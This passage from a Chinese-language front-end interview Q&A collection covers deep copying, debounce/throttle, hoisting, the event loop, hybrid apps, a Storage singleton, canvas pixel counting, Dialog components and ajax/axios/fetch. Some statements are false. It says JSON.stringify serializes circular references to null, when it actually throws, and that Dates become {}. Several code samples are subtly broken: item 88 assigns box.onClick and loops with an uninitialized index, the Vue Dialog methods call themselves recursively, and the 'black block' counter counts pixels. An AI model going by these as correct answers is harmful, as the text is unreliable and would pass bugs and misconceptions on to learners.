    格式的数据类型。经过序列化和反序列化后，函数属性会丢失。

```js
let obj = {
  name: 'poetry',
  sayHello: function () {
    console.log('Hello!');
  },
};

let serializedObj = JSON.stringify(obj);
let clonedObj = JSON.parse(serializedObj);

console.log(clonedObj.name); // 'poetry'
console.log(typeof clonedObj.sayHello); // 'undefined'
```

2.  无法处理循环引用：如果对象存在循环引用，即对象内部包含对自身的引用，`JSON.stringify()`
    方法无法正确处理，会导致循环引用的属性被序列化为 `null` 。

```js
let obj = {
  name: 'poetry',
};
obj.self = obj;

let serializedObj = JSON.stringify(obj);
console.log(serializedObj); // {"name":"poetry","self":null}
```

3.  无法处理特殊对象：`JSON.stringify()` 方法无法序列化某些特殊对象，如
    `Date` 对象、正则表达式、 `Map` 、 `Set`等，它们在序列化过程中会转换成空对象。

```js
let obj = {
  now: new Date(),
  regex: /[a-z]+/,
  set: new Set([1, 2, 3]),
  map: new Map([
    [1, 'one'],
    [2, 'two'],
  ]),
};

let serializedObj = JSON.stringify(obj);
console.log(serializedObj); // {"now":{},"regex":{},"set":{},"map":{}}
```

4.  无法处理 `undefined` 属性：`JSON.stringify()`
    方法在序列化对象时会忽略 `undefined`属性，序列化后的结果不包含该属性。

```js
let obj = {
  name: 'poetry',
  age: undefined,
};

let serializedObj = JSON.stringify(obj);
console.log(serializedObj); // {"name":"poetry"}
```

> 因此，在使用 `JSON.stringify()`

> 进行深拷贝时，需要注意上述局限性，并确保对象不包含函数、循环引用或特殊对象，并且不需要保留
> `undefined` 属性。对于包含上述情况的对象，应使用其他方法实现深拷贝。

**window.structuredClone 结构化克隆**

> window 对象上，原生的 API, 属于深拷贝， [MDN](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/structuredClone), lodash 的 clone 参考的标准进行实现 [lodash-clone 实现](https://www.lodashjs.com/docs/lodash.clone)

```js
// 创建一个具有值和对自身的循环引用的对象。
const original = { name: 'MDN' };
original.itself = original;

// 对它进行克隆
const clone = structuredClone(original);

console.log(clone !== original); // 对象并不相同（标识不同）  true
console.log(clone.name === 'MDN'); // 它们具有相同的值  true
console.log(clone.itself === clone); // 且保留了循环引用  true
```

### 82 防抖/节流

**1. 防抖**

> 防抖函数原理：**把触发非常频繁的事件合并成一次去执行**
> 在指定时间内只执行一次回调函数，如果在指定的时间内又触发了该事件，则回调函数的执行时间会基于此刻重新开始计算


防抖动和节流本质是不一样的。**防抖动是将多次执行变为 `最后一次执行` ，节流是将多次执行变成 `每隔一段时间执行` **

> eg.
> 像百度搜索，就应该用防抖，当我连续不断输入时，不会发送请求；当我一段时间内不输入了，才会发送一次请求；如果小于这段时间继续输入的话，时间会重新计算，也不会发送请求。

**手写简化版:**

```js
// func是用户传入需要防抖的函数
// wait是等待时间
const debounce = (func, wait = 50) => {
  // 缓存一个定时器id
  let timer = 0;
  // 这里返回的函数是每次用户实际调用的防抖函数
  // 如果已经设定过定时器了就清空上一次的定时器
  // 开始一个新的定时器，延迟执行用户传入的方法
  return function (...args) {
    if (timer) clearTimeout(timer);
    timer = setTimeout(() => {
      func.apply(this, args);
    }, wait);
  };
};
```

**适用场景：**

- 文本输入的验证，连续输入文字后发送 AJAX 请求进行验证，验证一次就好
- 按钮提交场景：防止多次提交按钮，只执行最后提交的一次
- 服务端验证场景：表单验证需要服务端配合，只执行一段连续的输入事件的最后一次，还有搜索联想词功能类似

**2. 节流**

> 节流函数原理: 指频繁触发事件时，只会在指定的时间段内执行事件回调，即触发事件间隔大于等于指定的时间才会执行回调函数。总结起来就是：**事件，按照一段时间的间隔来进行触发**。


> 像 dom 的拖拽，如果用消抖的话，就会出现卡顿的感觉，因为只在停止的时候执行了一次，这个时候就应该用节流，在一定时间内多次执行，会流畅很多

**手写简版**

使用时间戳的节流函数会在第一次触发事件时立即执行，以后每过 `wait`

秒之后才执行一次，并且最后一次触发事件不会被执行

**时间戳方式：**

```js
// func是用户传入需要防抖的函数
// wait是等待时间
const throttle = (func, wait = 50) => {
  // 上一次执行该函数的时间
  let lastTime = 0;
  return function (...args) {
    // 当前时间
    let now = +new Date();
    // 将当前时间和上一次执行函数时间对比
    // 如果差值大于设置的等待时间就执行函数
    if (now - lastTime > wait) {
      lastTime = now;
      func.apply(this, args);
    }
  };
};

setInterval(
  throttle(() => {
    console.log(1);
  }, 500),
  1
);
```

**定时器方式：**

> 使用定时器的节流函数在第一次触发时不会执行，而是在 delay
> 秒之后才执行，当最后一次停止触发后，还会再执行一次函数

```js
function throttle(func, delay) {
  var timer = 0;
  return function () {
    var context = this;
    var args = arguments;
    if (timer) return; // 当前有任务了，直接返回
    timer = setTimeout(function () {
      func.apply(context, args);
      timer = 0;
    }, delay);
  };
}
```

**适用场景：**

- 拖拽场景：固定时间内只执行一次，防止超高频次触发位置变动。`DOM`
  元素的拖拽功能实现（ `mousemove` ）

- 缩放场景：监控浏览器`resize`
- 滚动场景：监听滚动`scroll`事件判断是否到页面底部自动加载更多
- 动画场景：避免短时间内多次触发动画引起性能问题

**总结**

- **函数防抖**：`限制执行次数，多次密集的触发只执行一次`
  - 将几次操作合并为一次操作进行。原理是维护一个计时器，规定在`delay`时间后触发函数，但是在`delay`时间内再次触发的话，就会取消之前的计时器而重新设置。这样一来，只有最后一次操作能被触发。
- **函数节流**：`限制执行的频率，按照一定的时间间隔有节奏的执行`
  - 使得一定时间内只触发一次函数。原理是通过判断是否到达一定时间来触发函数。

### 83 谈谈变量提升？

- 变量提升是 JavaScript
  中的一种行为，它指的是在代码执行过程中，变量和函数的声明会在其所在作用域的顶部被提升到执行环境中的过程。这意味着可以在变量或函数声明之前使用它们，而不会引发错误。

- 在 JavaScript 中，使用 var
  声明变量时会发生变量提升。具体来说，变量声明会在代码执行前的编译阶段被解析并添加到执行环境中，但是变量的赋值操作会保留在原来的位置。这就导致了以下的行为：

> 当执行 JS
> 代码时，会生成执行环境，只要代码不是写在函数中的，就是在全局执行环境中，函数中的代码会产生函数执行环境，只此两种执行环境

**1. 变量声明会被提升，但赋值操作不会被提升：**

```js
console.log(a); // undefined
var a = 10;
```

上述代码在执行时会被解析为：

```js
var a;
console.log(a); // undefined
a = 10;
```

变量提升

这是因为函数和变量提升的原因。通常提升的解释是说将声明的代码移动到了顶部，这其实没有什么错误，便于大家理解。但是更准确的解释应该是：在生成执行环境时，会有两个阶段。第一个阶段是创建的阶段，JS
解释器会找出需要提升的变量和函数，并且给他们提前在内存中开辟好空间，函数的话会将整个函数存入内存中，变量只声明并且赋值为
`undefined` ，所以在第二个阶段，也就是代码执行阶段，我们可以直接提前使用

**2. 函数优先于变量提升**

在提升的过程中，相同的函数会覆盖上一个函数，并且函数优先于变量提升

```js
b(); // call b second

function b() {
  console.log('call b fist');
}

function b() {
  console.log('call b second');
}
var b = 'Hello world';
```

> `var` 会产生很多错误，所以在 `ES6` 中引入了 `let` 。 `let`

> 不能在声明前使用，但是这并不是常说的 `let` 不会提升， `let`

> 提升了，在第一阶段内存也已经为他开辟好了空间，但是因为这个声明的特性导致了并不能在声明前使用

**总结**

- 变量提升是 JavaScript
  的一种行为，将变量和函数声明提升到作用域的顶部。

- 使用 `var` 声明的变量会被提升，但赋值操作保留在原来的位置。
- 在提升的过程中，相同的函数会覆盖上一个函数，并且函数优先于变量提升
- 使用 `let` 和 `const`

  声明的变量也存在变量提升，但在声明前访问会引发暂时性死区错误。

### 84 什么是单线程，和异步的关系

> 在 JavaScript 中，单线程指的是 JavaScript
> 引擎在执行代码时只有一个主线程，也就是说一次只能执行一条指令。这意味着
> JavaScript
> 代码是按照顺序执行的，前一段代码执行完成后才会执行下一段代码。

- 异步是一种编程模型，用于处理非阻塞的操作。在 JavaScript
  中，异步编程可以通过回调函数、 `Promise` 、 `async/await`

  等方式来实现。异步操作不会阻塞主线程的执行，从而提高了程序的响应性能和用户体验。

- 异步的关系与单线程密切相关，因为 JavaScript
  是单线程的，如果所有的操作都是同步的，那么一旦遇到一个耗时的操作，比如网络请求或文件读取，整个程序都会被阻塞，用户界面也会停止响应，导致用户体验差。

- 通过使用异步编程模型，可以将耗时的操作委托给其他线程或进程来处理，使得主线程可以继续执行其他任务，提高了程序的并发性和响应性。当异步操作完成后，通过回调函数或
  Promise 的方式通知主线程，主线程再执行相应的回调逻辑。

**总结一下：**

- `JavaScript` 是单线程的，只有一个主线程用于执行代码。
- 异步编程是一种处理非阻塞操作的方式，提高程序的响应性能和用户体验。
- 异步操作可以将耗时的任务委托给其他线程或进程处理，主线程继续执行其他任务。
- 异步操作完成后通过回调函数或 `Promise` 的方式通知主线程。

### 85 前端面试之 hybrid

> [http://blog.poetries.top/2018/10/20/fe-interview-hybrid/{.icon
> .outbound} [(opens new
> window)]{.sr-only}](http://blog.poetries.top/2018/10/20/fe-interview-hybrid/){target="\_blank"
> rel="noopener noreferrer"}

> Hybrid（混合应用）是指结合了原生应用和 Web 技术开发的应用程序。它通常在移动应用开发中使用，允许开发人员使用 Web 技术（如 HTML、CSS 和 JavaScript）来构建跨平台的移动应用，并在原生应用中嵌入 Web 视图。

以下是我对 Hybrid 的理解：

1.  **跨平台开发**：Hybrid 应用具有跨平台的优势，通过使用 Web 技术开发一次，可以在多个平台上运行，如 iOS 和 Android。这样可以节省开发时间和成本，并且能够更快地推出产品。
2.  **原生功能访问**：Hybrid 应用可以利用原生应用提供的功能和特性，如相机、地理定位、推送通知等。通过使用桥接技术，可以在 Web 视图中调用原生代码，实现对原生功能的访问和调用。
3.  **Web 技术栈**：Hybrid 应用使用 Web 技术栈进行开发，包括 HTML、CSS 和 JavaScript。开发人员可以使用熟悉的 Web 开发工具和框架来构建应用程序，并且可以利用丰富的 Web 生态系统中的第三方库和工具。
4.  **在线更新**：Hybrid 应用可以通过 Web 进行在线更新，不需要用户手动更新应用程序。这使得开发人员能够快速修复错误、添加新功能，并将这些变更推送给用户，提供更好的用户体验。
5.  **性能权衡**：与原生应用相比，Hybrid 应用在性能方面可能存在一些权衡。由于在 Web 视图中运行，Hybrid 应用的性能可能受到一些限制，特别是在处理复杂的图形和动画效果时。然而，随着 Web 技术的不断发展，这些性能限制正在逐渐减小。

> 总的来说，Hybrid 应用是一种将 Web 技术与原生应用相结合的开发模式，提供了跨平台开发、访问原生功能、在线更新等优势。它在移动应用开发中具有一定的灵活性和便利性，可以满足开发人员快速开发和发布应用程序的需求。

以下是一个简单的示例代码，展示了如何使用 Hybrid 开发框架（例如 Ionic）创建一个基本的 Hybrid 应用：

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <title>Hybrid App</title>
    <!-- 引入Ionic框架 -->
    <link
      rel="stylesheet"
      href="https://cdnjs.cloudflare.com/ajax/libs/ionic/3.9.2/css/ionic.min.css"
    />
    <script src="https://cdnjs.cloudflare.com/ajax/libs/ionic/3.9.2/js/ionic.bundle.min.js"></script>
  </head>

  <body>
    <!-- Ionic提供的UI组件 -->
    <ion-header>
      <ion-navbar>
        <ion-title>Hybrid App</ion-title>
      </ion-navbar>
    </ion-header>
    <ion-content padding>
      <h2>Welcome to Hybrid App!</h2>
      <p>This is a hybrid application developed using Ionic framework.</p>
    </ion-content>

    <!-- 应用的脚本代码 -->
    <script>
      // 在Ionic的Angular控制器中编写业务逻辑
      angular
        .module('starter', ['ionic'])
        .controller('AppController', function ($scope) {
          $scope.message = 'Hello, Hybrid App!';
        });

      // 启动Ionic应用
      ionic.Platform.ready(function () {
        angular.bootstrap(document, ['starter']);
      });
    </script>
  </body>
</html>
```

上述示例中使用了 Ionic 框架，通过引入 Ionic 的 CSS 和 JavaScript 库，我们可以使用 Ionic 提供的 UI 组件和工具来构建 Hybrid 应用。在应用的脚本代码中，使用 AngularJS 来编写业务逻辑，控制器中定义了一个 `message` 变量，可以在视图中显示。最后，通过 `ionic.Platform.ready` 来启动 Ionic 应用。

请注意，这只是一个简单的示例，实际的 Hybrid 应用可能包含更多的功能和复杂性。不同的 Hybrid 开发框架可能有不同的用法和特性，具体的开发代码和结构会根据所选框架而有所不同。

### 86 前端面试之组件化

> [http://blog.poetries.top/2018/10/20/fe-interview-component/{.icon
> .outbound} [(opens new
> window)]{.sr-only}](http://blog.poetries.top/2018/10/20/fe-interview-component/){target="\_blank"
> rel="noopener noreferrer"}

### 87 前端面试之 MVVM 浅析

> [http://blog.poetries.top/2018/10/20/fe-interview-mvvm/{.icon
> .outbound} [(opens new
> window)]{.sr-only}](http://blog.poetries.top/2018/10/20/fe-interview-mvvm/){target="\_blank"
> rel="noopener noreferrer"}

### 88 实现效果，点击容器内的图标，图标边框变成 border 1px solid red，点击空白处重置

```js
const box = document.getElementById('box');

function isIcon(target) {
  return target.className.includes('icon');
}

box.onClick = function (e) {
  e.stopPropagation();
  const target = e.target;
  if (isIcon(target)) {
    target.style.border = '1px solid red';
  }
};
const doc = document;
doc.onclick = function (e) {
  const children = box.children;
  for (let i; i < children.length; i++) {
    if (isIcon(children[i])) {
      children[i].style.border = 'none';
    }
  }
};
```

### 89 请简单实现双向数据绑定 MVVM

```html
<input id="input" />

<script>
  const data = {};
  const input = document.getElementById('input');
  Object.defineProperty(data, 'text', {
    get() {
      return this.value;
    },
    set(value) {
      input.value = value;
      this.value = value;
    },
  });
  input.addEventListener('change', function (e) {
    data.text = e.target.value;
  });
</script>
```

> 当你修改输入框的值时， `data.text` 会更新，而当你设置 `data.text` 的值时，输入框的值也会更新。这实现了简单的双向数据绑定。请注意，这只是一个基础示例，实际的 `MVVM` 框架会更复杂且功能更强大

### 90 实现 Storage，使得该对象为单例，并对 `localStorage` 进行封装设置值 setItem(key, value)和 getItem(key)

```js
var instance = null;
class Storage {
  static getInstance() {
    if (!instance) {
      instance = new Storage();
    }
    return instance;
  }

  setItem(key, value) {
    localStorage.setItem(key, value);
  }

  getItem(key) {
    return localStorage.getItem(key);
  }
}
```

现在，你可以使用 `Storage.getInstance()` 来获取 `Storage` 的单例对象，并使用 `setItem` 和 `getItem` 方法来设置和获取 `localStorage` 中的值。

```js
// 使用示例
const storage = Storage.getInstance();
storage.setItem('name', 'poetry');
const name = storage.getItem('name');
console.log(name); // 输出: poetry
```

### 91 谈谈你对 Event Loop 的理解

前端面试中关于事件循环（Event Loop）的考点主要包括以下内容：

1.  事件循环的基本原理：介绍 JavaScript
    的单线程特性，事件循环的概念和工作原理，以及任务队列（Task
    Queue）的概念。

2.  宏任务和微任务：区分宏任务（Macrotask）和微任务（Microtask）的概念，理解它们在事件循环中的执行顺序。
3.  常见的宏任务和微任务：了解常见的宏任务和微任务的类型，如
    `setTimeout` 、 `setInterval` 、 `Promise` 、 `MutationObserver` 等。

4.  异步操作的执行顺序：理解异步操作的执行顺序，如何在事件循环中处理异步代码，微任务优先于宏任务执行等。
5.  宏任务中的异步操作：了解在宏任务中的异步操作（例如
    `setTimeout` ）是如何被添加到任务队列中的，以及它们的执行时机。

6.  浏览器中的事件循环和 Node.js 中的事件循环：了解浏览器环境和 Node.js
    环境下事件循环的差异，如 `setImmediate` 的区别等。

了解和掌握事件循环的原理和机制对于理解 JavaScript
异步编程非常重要。在面试中，常常会通过让求职者解释事件循环的执行顺序、分析代码的输出结果等方式来考察他们对事件循环的理解。

> 首先， `js` 是单线程的，主要的任务是处理用户的交互，而用户的交互无非就是响应 `DOM` 的增删改，使用事件队列的形式，一次事件循环只处理一个事件响应，使得脚本执行相对连续，所以有了事件队列，用来储存待执行的事件，那么事件队列的事件从哪里被 `push` 进来的呢。那就是另外一个线程叫事件触发线程做的事情了，他的作用主要是在定时触发器线程、异步 `HTTP` 请求线程满足特定条件下的回调函数 `push` 到事件队列中，等待 `js` 引擎空闲的时候去执行，当然 js 引擎执行过程中有优先级之分，首先 js 引擎在一次事件循环中，会先执行 js 线程的主任务，然后会去查找是否有微任务 `microtask（promise）` ，如果有那就优先执行微任务，如果没有，在去查找宏任务 `macrotask（setTimeout、setInterval）` 进行执行

> 众所周知 `JS` 是门非阻塞单线程语言，因为在最初 `JS`

> 就是为了和浏览器交互而诞生的。如果 `JS`

> 是门多线程的语言话，我们在多个线程中处理 `DOM`

> 就可能会发生问题（一个线程中新加节点，另一个线程中删除节点）

- `JS`
  在执行的过程中会产生执行环境，这些执行环境会被顺序的加入到执行栈中。如果遇到异步的代码，会被挂起并加入到
  `Task` （有多种 `task` ） 队列中。一旦执行栈为空， `Event` `Loop`

      就会从 `Task`

      队列中拿出需要执行的代码并放入执行栈中执行，所以本质上来说 `JS`

      中的异步还是同步行为


```js
console.log('script start');

setTimeout(function () {
  console.log('setTimeout');
}, 0);

console.log('script end');
```

> 不同的任务源会被分配到不同的 `Task` 队列中，任务源可以分为
> 微任务（ `microtask` ） 和 宏任务（ `macrotask` ）。在 `ES6`

> 规范中， `microtask` 称为 `jobs` ， `macrotask` 称为 `task`

```js
console.log('script start');

setTimeout(function () {
  console.log('setTimeout');
}, 0);

new Promise((resolve) => {
  console.log('Promise');
  resolve();
})
  .then(function () {
    console.log('promise1');
  })
  .then(function () {
    console.log('promise2');
  });

console.log('script end');
// script start => Promise => script end => promise1 => promise2 => setTimeout
```

> 以上代码虽然 `setTimeout` 写在 `Promise` 之前，但是因为 `Promise`

> 属于微任务而 `setTimeout` 属于宏任务

**微任务**

- `process.nextTick`
- `promise`
- `Object.observe`
- `MutationObserver`

**宏任务**

- `script`
- `setTimeout`
- `setInterval`
- `setImmediate`
- `I/O`
- `UI rendering`

> 宏任务中包括了 `script`

> ，浏览器会先执行一个宏任务，接下来有异步代码的话就先执行微任务

**所以正确的一次 Event loop 顺序是这样的**

- 执行同步代码，这属于宏任务
- 执行栈为空，查询是否有微任务需要执行
- 执行所有微任务
- 必要的话渲染 UI
- 然后开始下一轮 `Event loop`，执行宏任务中的异步代码

> 通过上述的 `Event loop`

> 顺序可知，如果宏任务中的异步代码有大量的计算并且需要操作 `DOM`

> 的话，为了更快的响应界面响应，我们可以把操作 `DOM` 放入微任务中

```js
setTimeout(function () {
  console.log('1');
}, 0);
async function async1() {
  console.log('2');
  const data = await async2();
  console.log('3');
  return data;
}
async function async2() {
  return new Promise((resolve) => {
    console.log('4');
    resolve('async2的结果');
  }).then((data) => {
    console.log('5');
    return data;
  });
}
async1().then((data) => {
  console.log('6');
  console.log(data);
});
new Promise(function (resolve) {
  console.log('7');
  //   resolve()
}).then(function () {
  console.log('8');
});
```

> 输出结果： `247536` `async2` 的结果 `1`

### 92 JavaScript 对象生命周期的理解

JavaScript 对象的生命周期可以概括为以下几个阶段：

1.  **创建阶段**：当使用 `new`
    关键字或对象字面量语法创建一个对象时，JavaScript
    引擎会为该对象分配内存，并将其初始化为一个空对象。

2.  **使用阶段**：在对象创建后，可以对其进行属性的读取、修改和方法的调用等操作。对象被使用时，它可能会被传递给其他函数或存储在变量中，以供后续操作使用。
3.  **引用阶段**：在对象的使用过程中，其他变量或函数可能会引用该对象，形成对该对象的引用关系。这些引用关系可以是直接的，也可以是通过其他对象的属性或方法间接引用的。
4.  **回收阶段**：当一个对象不再被引用时，或者所有引用都被循环引用时，垃圾回收机制会将其标记为可回收，并在适当的时候回收该对象所占用的内存。垃圾回收器定期扫描内存中的对象，检查它们的引用情况，并释放那些不再被引用的对象。

需要注意的是，JavaScript
使用自动垃圾回收机制来管理内存，开发者不需要显式地释放对象占用的内存。垃圾回收器会自动跟踪对象的引用关系，并在适当的时候回收无用的对象。开发者可以通过将对象的引用置为
`null` 来显式地解除对对象的引用，以帮助垃圾回收器更早地回收对象。

在浏览器环境中，垃圾回收器通常使用标记-清除算法来判断对象是否可回收。当一个对象不再可达时，即没有任何引用指向该对象，垃圾回收器会将其标记为可回收，并在垃圾回收的过程中将其释放。一些现代的浏览器还使用了更高级的垃圾回收算法，如分代回收和增量标记等，以提高垃圾回收的效率和性能。

总结来说，JavaScript
对象的生命周期包括创建、使用和回收三个阶段。开发者无需显式地管理对象的内存，而是通过使用对象和及时解除对象的引用来帮助垃圾回收器自动回收不再使用的对象。

### 93 我现在有一个 `canvas` ，上面随机布着一些黑块，请实现方法，计算 canvas 上有多少个黑块

要计算 `canvas` 上有多少个黑块，需要遍历 `canvas`

上的每个像素，并检查该像素的颜色是否为黑色。以下是一种实现方法：

```js
function countBlackBlocks(canvas) {
  const context = canvas.getContext('2d');
  const imageData = context.getImageData(0, 0, canvas.width, canvas.height);
  const pixels = imageData.data;
  let blackCount = 0;

  for (let i = 0; i < pixels.length; i += 4) {
    // 获取像素的 RGB 颜色值
    const red = pixels[i];
    const green = pixels[i + 1];
    const blue = pixels[i + 2];

    // 判断颜色是否为黑色
    if (red === 0 && green === 0 && blue === 0) {
      blackCount++;
    }
  }

  return blackCount;
}
```

使用该方法，传入 `canvas` 元素作为参数，即可计算 `canvas`

上有多少个黑块。该方法通过获取 `canvas`

上的像素数据，遍历每个像素并判断其颜色是否为黑色（RGB 值为 \[0, 0,
0\]），累计黑色像素的数量，并最后返回计数结果。

请注意，为了避免跨域问题，确保 `canvas` 的源与脚本执行的域相同，或者将
`canvas` 的图片源设为与脚本执行的域相同。另外，如果 `canvas`

的大小较大，遍历像素的操作可能会比较耗时，可能会影响性能。因此，在处理较大的
`canvas` 时，需要注意性能优化。

### 94 现在要你完成一个 Dialog 组件，说说你设计的思路？它应该有什么功能？

基于上述需求，以下是设计思路和 Vue 实现示例：

**设计思路:**

1.  创建一个 Dialog 组件，它是一个可控的组件，接收`visible`、`onOk`和`onCancel`等属性。
2.  使用`v-if`或者`v-show`来控制 Dialog 组件的显示与隐藏。
3.  在组件内部，使用插槽（slot）来允许自定义头部和底部内容。
4.  在 Dialog 组件的模板中，设置一个蒙层（mask），用于遮盖底层内容。点击蒙层时触发`onCancel`事件关闭 Dialog。
5.  在 Dialog 组件的内容区域，设置一个滚动条容器，当内容超出容器高度时显示滚动条。
6.  根据需要，可以在组件外部指定渲染位置、设置外层样式等。

**Vue 实现示例：**

```vue
<template>
  <div v-if="visible" class="dialog-container">
    <div class="dialog-mask" @click="onCancel"></div>
    <div class="dialog-content">
      <div class="dialog-header">
        <slot name="header">
          <h2>Default Header</h2>
        </slot>
      </div>
      <div class="dialog-body">
        <slot></slot>
      </div>
      <div class="dialog-footer">
        <slot name="footer">
          <button @click="onOk">Confirm</button>
          <button @click="onCancel">Cancel</button>
        </slot>
      </div>
    </div>
  </div>
</template>

<script>
export default {
  props: {
    visible: {
      type: Boolean,
      default: false,
    },
    onOk: {
      type: Function,
      default: () => {},
    },
    onCancel: {
      type: Function,
      default: () => {},
    },
  },
  watch: {
    visible(newValue) {
      if (newValue) {
        document.body.style.overflow = 'hidden';
      } else {
        document.body.style.overflow = '';
      }
    },
  },
  methods: {
    onOk() {
      this.onOk();
    },
    onCancel() {
      this.onCancel();
    },
  },
};
</script>

<style>
.dialog-container {
  position: fixed;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  display: flex;
  justify-content: center;
  align-items: center;
}

.dialog-mask {
  position: fixed;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  background-color: rgba(0, 0, 0, 0.5);
}

.dialog-content {
  background-color: white;
  width: 400px;
  border-radius: 4px;
  overflow: hidden;
}

.dialog-header {
  padding: 16px;
  border-bottom: 1px solid #ccc;
}

.dialog-body {
  padding: 16px;
  max-height: 400px;
  overflow-y: auto;
}

.dialog-footer {
  padding: 16px;
  border-top: 1px solid #ccc;
  text-align: right;
}

.dialog-footer button {
  margin-left: 8px;
}
</style>
```

在使用示例中，我们可以在父组件中通过 `v-model` 指令来控制 `visible` 属性的值，从而控制 Dialog 组件的显示和隐藏。同时，可以通过 `@ok` 和 `@cancel` 事件监听来处理确定和取消按钮的点击事件。

```vue
<template>
  <div>
    <button @click="showDialog">Show Dialog</button>
    <Dialog v-model="dialogVisible" @ok="handleOk" @cancel="handleCancel">
      <template #header>
        <h2>Custom Header</h2>
      </template>
      <p>This is the dialog content.</p>
      <template #footer>
        <button @click="handleCustomAction">Custom Action</button>
      </template>
    </Dialog>
  </div>
</template>

<script>
import Dialog from './Dialog';

export default {
  components: {
    Dialog,
  },
  data() {
    return {
      dialogVisible: false,
    };
  },
  methods: {
    showDialog() {
      this.dialogVisible = true;
    },
    handleOk() {
      // Handle ok button click
      console.log('Ok button clicked');
      this.dialogVisible = false;
    },
    handleCancel() {
      // Handle cancel button click
      console.log('Cancel button clicked');
      this.dialogVisible = false;
    },
    handleCustomAction() {
      // Handle custom action button click
      console.log('Custom action button clicked');
    },
  },
};
</script>
```

注意，在使用示例中，我们引入了自定义的 Dialog 组件，并在父组件中进行注册。然后使用 `v-model` 绑定 `dialogVisible` 属性来控制 Dialog 组件的显示和隐藏。通过监听 `@ok` 和 `@cancel` 事件来处理确定和取消按钮的点击事件，并在方法中进行相应的处理逻辑。

这样，当点击\"Show
Dialog\"按钮时，Dialog 组件将会显示出来，并且可以根据需要自定义头部、内容和底部按钮，同时可以处理确定和取消按钮的点击事件。

**React Hooks 实现**

下面是使用 React Hooks 实现的 Dialog 组件示例：

```js
import React, { useState } from 'react';

const Dialog = ({ visible, onCancel, onOk, children }) => {
  const [dialogVisible, setDialogVisible] = useState(visible);

  const handleCancel = () => {
    setDialogVisible(false);
    onCancel && onCancel();
  };

  const handleOk = () => {
    setDialogVisible(false);
    onOk && onOk();
  };

  return (
    <>
      {' '}
      {dialogVisible && (
        <div className="dialog-wrapper">
          <div className="dialog-mask" onClick={handleCancel}>
            {' '}
          </div>{' '}
          <div className="dialog-content">
            <div className="dialog-header">
              <h2> Dialog Header </h2>{' '}
            </div>{' '}
            <div className="dialog-body"> {children} </div>{' '}
            <div className="dialog-footer">
              <button onClick={handleOk}> OK </button>{' '}
              <button onClick={handleCancel}> Cancel </button>{' '}
            </div>{' '}
          </div>{' '}
        </div>
      )}{' '}
    </>
  );
};

export default Dialog;
```

在这个示例中，我们使用了 `useState` 来定义一个 `dialogVisible` 状态，来控制 Dialog 组件的显示和隐藏。当 `visible` 属性发生变化时，通过 `setDialogVisible` 方法来更新 `dialogVisible` 状态。

在 `handleCancel` 和 `handleOk` 方法中，我们调用 `setDialogVisible(false)` 来隐藏 Dialog 组件，并触发相应的 `onCancel` 和 `onOk` 回调函数。

在返回的 JSX 中，我们根据 `dialogVisible` 状态来判断是否渲染 Dialog 组件。当 `dialogVisible` 为 `true` 时，渲染 Dialog 组件的内容，包括遮罩层、头部、内容和底部按钮。点击遮罩层时，调用 `handleCancel` 方法，关闭 Dialog。

使用这个 Dialog 组件时，可以通过传递 `visible` 、 `onCancel` 和 `onOk` 属性来控制显示和隐藏，以及处理取消和确定按钮的点击事件。

```js
import React, { useState } from 'react';
import Dialog from './Dialog';

const App = () => {
  const [dialogVisible, setDialogVisible] = useState(false);

  const showDialog = () => {
    setDialogVisible(true);
  };

  const handleOk = () => {
    console.log('OK button clicked');
    setDialogVisible(false);
  };

  const handleCancel = () => {
    console.log('Cancel button clicked');
    setDialogVisible(false);
  };

  return (
    <div>
      <button onClick={showDialog}> Show Dialog </button>{' '}
      <Dialog visible={dialogVisible} onCancel={handleCancel} onOk={handleOk}>
        <p> This is the dialog content. </p>{' '}
      </Dialog>{' '}
    </div>
  );
};

export default App;
```

在这个示例中，我们在父组件中使用 `useState` 定义了一个 `dialogVisible` 状态，并提供了 `showDialog` 、 `handleOk` 和 `handleCancel` 方法来控制 Dialog 组件的显示和隐藏，以及处理确定和取消按钮的点击事件。

当点击\"Show
Dialog\"按钮时，Dialog 组件将会显示出来，并且可以根据需要传递内容，并处理确定和取消按钮的点击事件。

### 95 ajax、axios、fetch 区别

**总结一下 ajax、axios 和 fetch 的区别：**

- ajax 是一种技术统称，基于原生的 XHR 开发，已经有了 fetch 的替代方案。
- fetch 是一个原生的 API，用于进行网络请求，支持 Promise
  API，但在某些方面功能较为简单，需要进行封装来处理错误、超时等情况。

- axios 是一个第三方库，可以用于浏览器和 Node.js 环境中发出 HTTP 请求，支持 Promise
  API，提供了更多的功能和选项，如拦截请求和响应、转换数据、取消请求等。

**下面是它们的一些主要区别和特点：**

- **代码简洁性**：fetch 和 axios 相比，ajax 的代码较为冗长，需要手动配置各项参数；fetch 和 axios 使用更简洁，支持链式调用和配置对象参数。
- **浏览器兼容性**：fetch 是基于原生的 Fetch
  API，较新的 API，不支持低版本的浏览器，需要进行兼容性处理；ajax 和 axios 对各种浏览器有较好的兼容性。

- **功能丰富性**：axios 提供了更多的功能和选项，如拦截请求和响应、转换数据、取消请求等，而 fetch 较为简单，需要进行封装来实现这些功能。
- **错误处理**：axios 和 fetch 支持 Promise
  API，可以使用 catch 方法捕获错误；ajax 需要通过 error 回调函数来处理错误。

- **请求取消**：axios 和 fetch 支持请求的取消操作，可以提前终止请求；ajax 没有原生的取消请求的方法。
- **默认带 cookie**：axios 和 ajax 默认会自动携带请求的 cookie 信息，而 fetch 默认不会携带，需要手动配置。
- **请求进度监测**：axios 和 ajax 支持原生监测请求的进度，如上传和下载的进度；fetch 没有原生的请求进度监测方法。

**jQuery ajax**

```js
$.ajax({
  type: 'POST',
  url: url,
  data: data,
  dataType: dataType,
  success: function () {},
  error: function () {},
});
```

优缺点：

- 本身是针对`MVC`的编程, 不符合现在前端`MVVM`的浪潮
- 基于原生的`XHR`开发，`XHR`本身的架构不清晰，已经有了`fetch`的替代方案
- `JQuery`整个项目太大，单纯使用`ajax`却要引入整个`JQuery`非常的不合理（采取个性化打包的方案又不能享受 CDN 服务）

**axios**

```js
axios({
  method: 'post',
  url: '/user/12345',
  data: {
    firstName: 'Fred',
    lastName: 'Flintstone',
  },
})
  .then(function (response) {
    console.log(response);
  })
  .catch(function (error) {
    console.log(error);
  });
```

优缺点：

- 从浏览器中创建 `XMLHttpRequest`
- 从 `node.js` 发出 `http` 请求
- 支持 `Promise API`
- 拦截请求和响应
- 转换请求和响应数据
- 取消请求
- 自动转换`JSON`数据
